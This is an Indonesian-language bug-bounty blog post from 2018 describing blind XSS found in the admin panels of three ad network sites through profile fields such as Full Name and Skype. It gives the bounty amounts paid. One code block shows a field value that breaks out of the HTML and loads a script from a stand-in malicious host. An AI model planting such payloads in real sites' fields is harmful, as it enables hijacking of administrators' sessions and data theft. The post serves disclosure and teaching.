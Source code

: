 ```yaml
---
layout: post
title: Mengintip Admin Panel situs Ad Networks
date: 2018-08-22 04:10:00 PM
permalink: project/2018-08-22-mengintip-admin-panel-situs-ad-networks/
author: xhellc0de
categories: pentesting
tags: vulnerability xss blind-xss bug-bounty
---
```

![Image of Ad Networks](https://noobsec.org/images/ad_network.png)

Karena kehidupan yang semakin sulit, banyaknya biaya hidup yang harus dipenuhi maka saya pun mencoba untuk mencari pendapatan tambahan dari Internet *(curhat)*. Salah satu yang saya lakukan adalah mencari uang dari situs periklanan atau biasa dikenal dengan Ad Networks. Ada banyak sekali situs Ad Networks di jagat internet ini, mulai dari yang paling terkenal milik Google yaitu Google Adsense, dan situs-situs Ad Networks lainnya.

Beberapa waktu lalu, saldo pada situ Ad Networks saya sudah mencapai batas yang dapat di-withdraw. Dan saya pun segera melakukan penarikan pada situs tersebut. Ketika mau melakukan withdraw, saya iseng mengganti nama pada profile dengan menambahkan payload XSS didalamnya. Berharap payload tersebut akan tereksekusi di panel admin dan saya bisa melihat-lihat dalemannya hehe.

Selang beberapa waktu, benar saja payload saya tereksekusi di admin panel Ad Networks tersebut. Saya berhasil melakukan **Blind XSS** pada situs tersebut.

![Image of Ad Networks Panel](https://noobsec.org/images/b1_panel.png)

**Blind XSS** merupakan salah satu jenis XSS yang cukup unik. Kita tidak bisa melihat kapan dan dimana payload akan tereksekusi, bahkan sering kali tidak tereksekusi. Maka dari itu disebut Blind, alias buta. Payload yang kita buat umumnya tereksekusi di aplikasi lain yang saling terhubung pada satu database.

Untuk kasus yang saya temukan ini, saya memasukan payload XSS pada Member Area Ad Networks, lalu saya melakukan **Wihtdrawal Request** yang dimana pastinya diperlukan pengecekan secara manual oleh Admin sebelum melakukan proses **Wihtdrawal** yang saya minta. Maka Admin membuka halaman yang berisi **Withdrawal Request** pada situsnya, dan pada halaman tersebut ada **Field Full Name** yang sebelumnya saya isi dengan Payload XSS pada Member Area saya.

Berikut ini contoh source code dari Field Full Name setelah saya isi payload XSS:

```html
<td style="color:black;cursor:pointer;" userid="x" class="userid userid_x">
  John Smith"&gt;<script src="https://malicious.script/"></script>
</td>
```

Karena saya merupakan orang yang jujur dan baik hati. Maka saya segera melapor pada Admin situs tersebut terkait bug yang saya temukan. Tidak lupa pula menanyakan apakah ada reward yang saya dapatkan haha..

![Image of Ad Networks Email](https://noobsec.org/images/b1_email.png)

Tidak lama admin dari situs tersebut membalas email dan memberikan saya reward terkahit bug yang saya temukan. Lumayan, Withdraw nya jadi dobel hehe..

**Dari bug ini saya diberi reward sebesar $250. (Alhamdulillah)**

Tidak berhenti sampai disitu, saya pun mencoba hal yang sama pada situs Ad Networks yang lain. Karena situs mereka adalah situs penghasil uang, sudah pasti mereka punya uang dan mungkin mau memberi reward seperti pada situ yang awal tadi.

![Image of Kamen](https://noobsec.org/images/kamen.gif)

Pada situs berikutnya, payload XSS saya masukan pula pada field Full Name dan tereksekusi di Halaman **Channel List** pada panel admin. Halaman itu berisi daftar dari publisher yang ada pada situs tersebut. Walaupun pada awalnya mereka menyangkal dan tidak percaya bahwa ada bug di situs mereka, akhirnya mereka pun percaya setelah saya gunakan **alert** untuk memunculkan popup pada admin panel mereka XD

![Image of Ad Networks Panel](https://noobsec.org/images/b2_panel.png)

**Dari bug ini saya diberi reward sebesar $50. (Alhamdulillah)**

Yang terakhir saya menemukan bug yang sama pada situs Ad Networks asal Rusia. Kali ini payload tereksekusi di halaman Affiliates pada **Field User Skype**. Karena pada member Panel nya terdapat field Skype dan hanya field itu yang bisa diisi dengan payload XSS, field lainnya diproteksi sehingga tidak bisa memasukan HTML Tag.

![Image of Ad Networks Panel](https://noobsec.org/images/b3_panel.png)

Tidak seperti situs sebelumnya, admin situs ini sangat ramah dan sangat cepat tanggap. Bahkan ini merupakan **Bounty Hunting** tercepat yang saya alami. Proses dari mengirim report sampai diberi reward memakan waktu kurang dari 2 jam!

![Image of Ad Networks Email](https://noobsec.org/images/b3_email1.png)

![Image of Ad Networks Email](https://noobsec.org/images/b3_email2.png)

```
15 Aug 2018 22:23 = Reported
15 Aug 2018 23:06 = Rewarded
```

**Dari bug ini saya diberi reward sebesar $100. (Alhamdulillah)**

Begitulah cerita singkat saya *mengintip* admin panel ada situ Ad Networks. Semoga bisa memberi inspirasi bagi kalian semua para tukang ngintip wkwk. Mengintiplah untuk sesuatu yang baik, karena segala sesuatu yang baik akan membawa hasil yang baik pula.

Referensi:

https://www.acunetix.com/websitesecurity/detecting-blind-xss-vulnerabilities/
